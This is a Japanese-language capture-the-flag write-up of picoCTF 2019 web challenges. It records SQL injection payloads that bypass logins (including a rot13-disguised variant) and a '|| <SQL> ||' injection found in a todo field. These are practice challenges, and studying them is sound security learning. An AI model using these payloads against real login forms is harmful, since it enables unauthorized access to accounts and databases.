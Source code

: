 #
- **entrypoint**  
- **payload**  
#
- **entrypoint**  
- **payload**  

# 常設の練習
## picoCTF 2019
https://ctftime.org/task/9545  
### login bypass (Irish-Name-Repo 1)
`https://2019shell1.picoctf.com/problem/47253/`  
SQLインジェクションでadminとしてログインする。  

`admin`,`' or 1=1 -- -`でログイン成功！  
### login bypass (Irish-Name-Repo 2)
`https://2019shell1.picoctf.com/problem/60775/`  
`admin' --`,`なんでも`でusernameの方のSQLインジェクションで成功！  
passwordの方がフィルタリングされてるらしい。`or`が使えないので`||`とかで代用したりいろいろしたがダメだった。  
```txt
// 成功したやつ
admin' --
admin' -- -
admin' ; --
admin' ;#

// 成功しなかったやつ
admin' #
```
### login bypass (Irish-Name-Repo 3)
`https://2019shell1.picoctf.com/problem/47247/`  
htmlのhiddenとして`debug=0`という値をフォームでパスワードと一緒に送信しているので`debug=1`とすると、実行しようとしている
SQL構文がわかる。どうやらpasswordのテキストをrot13で変換してからSQLに突っ込んでいるらしい。  
`' be 1 -- -`とすると`' or 1 -- -`と変換されて以下のように成功！  
```txt
SQL query: SELECT * FROM admin where password = '' or 1 -- -'
```
### SQLite / Union query (Empire1)
`https://2019shell1.picoctf.com/problem/4155/index`  
![image](https://user-images.githubusercontent.com/56021519/103904535-be749400-5140-11eb-906a-43c20766de27.png)  
ログインページにSQLインジェクションがあるかと思えばそういうわけじゃない。  
適当にRegisterして入ってみる。  
![image](https://user-images.githubusercontent.com/56021519/103904708-fa0f5e00-5140-11eb-8396-72ab168d4a4c.png)  
いろいろ試した結果、`Add a Todo`の`'`を挿入するとInternal Server Errorが返り、SQLインジェクションに脆弱だとわかる。  
![image](https://user-images.githubusercontent.com/56021519/103904777-14493c00-5141-11eb-963e-9cbf02554d78.png)  
次にInternal Server Errorが出ないようにして有効にSQLとして動くInjectionを探す。  
Your TodosでSQL実行結果を確認できる。  
```txt
// Internal Server Error
'
' or 1
' or 1=! -- -

// エラーがでない
' || 1=1 || '     1が返る
' || 1=2 || '     0が返る
```
したがって、`' || <SQL>  || '`の構文ならInternal Server Errorを出さずにSQL実行できるとわかる！  